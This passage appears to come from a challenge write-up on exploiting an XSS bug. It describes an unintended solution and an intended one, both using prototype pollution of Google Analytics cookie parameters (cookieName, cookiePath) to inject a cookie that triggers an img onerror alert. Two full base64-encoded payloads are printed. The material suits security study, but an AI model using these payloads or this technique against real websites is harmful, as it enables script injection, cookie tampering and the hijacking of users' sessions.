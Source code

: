 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/xss/a_order.png){: .align-center}

And for some reason that I still trying to figure out, the cookie path was set to `/challenge` and the we have successfully changed the `document.cookie` order. Now all we have to do it change the cookie payload. So the final payload was

```js
btoa("__proto__[cookieName]=username%3d<img%20src%3d'x'%20onerror%3dalert(document.domain)>\r\n%3b")

"X19wcm90b19fW2Nvb2tpZU5hbWVdPXVzZXJuYW1lJTNkPGltZyUyMHNyYyUzZCd4JyUyMG9uZXJyb3IlM2RhbGVydChkb2N1bWVudC5kb21haW4pPg0KJTNi"
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/xss/a_popup.png){: .align-center}

And we get a pop up with the domain name.


### b. The intended solution
After discussing with someone else who suggested looking at the ga code I saw the following

```js
 , Ad = S("userId", "uid")
      , Na = T("trackingId", "tid")
      , U = T("cookieName", void 0, "_ga")
      , W = T("cookieDomain")
      , Yb = T("cookiePath", void 0, "/")
      , Zb = T("cookieExpires", void 0, 63072E3)
      , Hd = T("cookieUpdate", void 0, !0)
      , Be = T("cookieFlags", void 0, "")
```

There seems to be parameters other than `cookieName` such as `cookiePath`, which we might be able to control using prototype pollution. Lets try crafting another payload with path as `/challenge` to change the document.cookie order.

```js
btoa("__proto__[cookieName]=username%3d<img%20src%3d'x'%20onerror%3dalert(document.domain)>%3b&__proto__[cookiePath]=/challenge%3b")
"X19wcm90b19fW2Nvb2tpZU5hbWVdPXVzZXJuYW1lJTNkPGltZyUyMHNyYyUzZCd4JyUyMG9uZXJyb3IlM2RhbGVydChkb2N1bWVudC5kb21haW4pPiUzYiZfX3Byb3RvX19bY29va2llUGF0aF09L2NoYWxsZW5nZSUzYg=="
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/xss/b_popup.png){: .align-center}


And that works too.


